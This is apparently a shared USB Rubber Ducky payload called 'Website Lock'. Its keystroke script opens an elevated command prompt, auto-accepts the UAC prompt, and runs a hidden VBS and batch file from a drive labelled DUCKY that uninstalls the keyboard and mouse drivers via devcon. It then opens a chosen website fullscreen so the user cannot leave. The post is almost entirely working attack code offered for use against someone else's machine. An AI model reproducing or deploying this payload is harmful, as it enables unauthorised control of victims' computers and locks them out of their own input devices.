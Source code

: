 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
		REM Title: Website Lock
		REM Author: Audiack
		REM Target Ducky Encoder: 2.6.2
		REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
		REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
		REM Info:
		REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
		REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
		REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
		REM     Make sure the files are in the root of a drive called DUCKY.
		REM     Twin duck works well with this. It is what I used when I was testing it. 
		REM File Descriptions:
		REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
		REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
		REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
		REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
	
	DELAY 3000
	CTRL ESC
	DELAY 700
	STRING cmd
	CTRL-SHIFT ENTER
	DELAY 3000
	ALT Y
	DELAY 700

	STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
	ENTER
	DELAY 1200
	STRING cd /d %myd%
	ENTER

	DELAY 1000
	STRING type "WebsiteLink.txt" | clip
	ENTER
	DELAY 100
	STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
	ENTER
	DELAY 400

	REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
	REM Title: Youtube Roller
	REM Author: Aprizm
	REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
	REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
	DELAY 200
	GUI r
	DELAY 200
	CTRL V
	ENTER
	DELAY 1000
	F11